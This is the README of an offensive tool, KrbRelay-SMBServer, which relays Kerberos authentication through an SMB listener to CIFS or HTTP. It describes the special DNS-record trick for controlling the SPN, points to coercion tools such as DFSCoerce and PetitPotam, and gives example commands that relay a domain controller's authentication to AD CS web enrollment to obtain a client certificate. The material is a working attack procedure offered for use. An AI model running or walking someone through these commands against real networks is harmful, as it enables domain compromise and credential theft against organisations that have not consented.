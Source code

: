 # KrbRelay-SMBServer

This version of Krbrelay is intended to act as an SMBServer (instead of DCOM) and relay the kerberos AP-REQ to CIFS or HTTP.<br>
90% of code is taken from the great KrebRelay tool: https://github.com/cube0x0/KrbRelay<br><br>
To have control over SPN, which is mandatory for relaying Kerberos, in this case we need to use James Forshaw  *CredMasrhalTargetInfo()*  trick documented here: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>
All you need is to create a DNS entry with the name of the target server you want relay in the form: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA* and map it to the ip address of your listening machine.<br>Normally domain users can perform DNS secure updates.
You can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>
You need to trigger the authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc...<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>

This is a quick and dirty adaptation from original project. 
Code contains a lot of unused stuff.  
I'll leave it to you to clean it up and create a more optimized version ;)
<br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a linux box redirecting to windows attacker machine on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line swicthes:
-listener: relay listener port
-redirector: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
For detailed usage and command line switches refer to original krbleay tool
````

<img width="1036" alt="Screenshot 2024-10-04 135731" src="https://github.com/user-attachments/assets/e2f95aa4-6c94-4517-b6c8-d7629a19a9f4">
<img width="1001" alt="Screenshot 2024-10-04 141231" src="https://github.com/user-attachments/assets/fd7bb972-0942-48d9-b99b-ba623f2823b0">
